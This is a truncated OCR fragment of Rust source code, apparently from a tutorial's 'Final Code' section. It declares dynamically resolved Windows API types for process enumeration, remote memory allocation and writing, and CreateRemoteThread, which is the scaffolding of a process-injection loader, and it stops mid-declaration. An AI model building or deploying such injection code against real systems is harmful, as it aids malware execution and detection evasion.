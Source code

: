 ## Final Code

```rust
use std::{
    ffi::c_void,
    mem::{size_of, transmute},
    ptr::null_mut,
};

use std::ptr::null;

use windows::{
    core::{Error, HRESULT, HSTRING, PCSTR},
    Win32::{
        Foundation::BOOL,
        Foundation::HANDLE,
        Foundation::HMODULE,
        Security::SECURITY_ATTRIBUTES,
        System::{
            Diagnostics::ToolHelp::*,
            LibraryLoader::{GetModuleHandleA, GetProcAddress},
            Memory::*,
            Threading::*,
        },
    },
};

type CreateToolhelp32SnapshotFunc =
    unsafe extern "system" fn(CREATE_TOOLHELP_SNAPSHOT_FLAGS, u32) -> HANDLE;

type Process32FirstFunc = unsafe extern "system" fn(HANDLE, *mut PROCESSENTRY32) -> BOOL;

type Process32NextFunc = unsafe extern "system" fn(HANDLE, *mut PROCESSENTRY32) -> BOOL;

type OpenProcessFunc = unsafe extern "system" fn(PROCESS_ACCESS_RIGHTS, bool, u32) -> HANDLE;

type CloseHandleFunc = unsafe extern "system" fn(HANDLE) -> BOOL;

type VirtualAlloExFunc = unsafe extern "system" fn(
    HANDLE,
    *const ::core::ffi::c_void,
    usize,
    VIRTUAL_ALLOCATION_TYPE,
    PAGE_PROTECTION_FLAGS,
) -> *mut c_void;

type WriteProcessMemoryFunc =
    unsafe extern "system" fn(HANDLE, *const c_void, *const c_void, usize, *mut usize) -> BOOL;

type VirtualProtectExFunc = unsafe extern "system" fn(
    HANDLE,
    *const c_void,
    usize,
    PAGE_PROTECTION_FLAGS,
    *mut PAGE_PROTECTION_FLAGS,
) -> BOOL;

type CreateRemoteThreadFunc = unsafe extern "system" fn(
    HANDLE,
    *const SECURITY_ATTRIBUTES,
    usize,
    LPTHREAD_START_ROUTINE,
    *const ::core::ffi::c_void,
```